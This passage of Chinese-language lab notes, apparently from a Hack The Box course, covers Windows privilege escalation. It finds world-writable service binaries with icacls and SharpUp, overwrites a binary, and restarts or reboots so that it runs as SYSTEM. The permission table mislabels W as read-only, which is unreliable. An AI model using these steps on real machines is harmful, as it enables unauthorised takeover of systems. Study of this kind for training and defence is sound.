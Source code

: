 ```powershell
  State            : Stopped
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\PCProtect\SecurityService.exe"
  
  <SNIP>
```
### 利用icacls檢查

>Everyone:(I)(F)就是good
```powershell
PS C:\htb> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

C:\Program Files (x86)\PCProtect\SecurityService.exe BUILTIN\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```
| Mask | Permissions             |     |
| ---- | ----------------------- | --- |
| F    | Full access             |     |
| M    | Modify access           |     |
| RX   | Read and execute access |     |
| R    | Read-only access        |     |
| W    | Read-only access        |     |
### 竄改Service Binary
```cmd
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```
```cmd
sc start SecurityService
```
- 如果沒辦法重新啟動service，可以利用`whoami /priv`檢查有沒有`SeShutdownPrivilege`，有的話可以重新開機`shutdown /r /t 0`
## Weak Service Permissions
>[!warning ] 小節重點
>透過竄改binpath來執行command
### 尋找可以竄改的Service 
```cmd
C:\htb> SharpUp.exe audit
 
=== SharpUp: Running Privilege Escalation Checks ===
 
 
=== Modifiable Services ===
 
  Name             : WindscribeService
  DisplayName      : WindscribeService
  Description      : Manages the firewall and controls the VPN tunnel
  State            : Running
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"
```
### 利用AccessChk檢查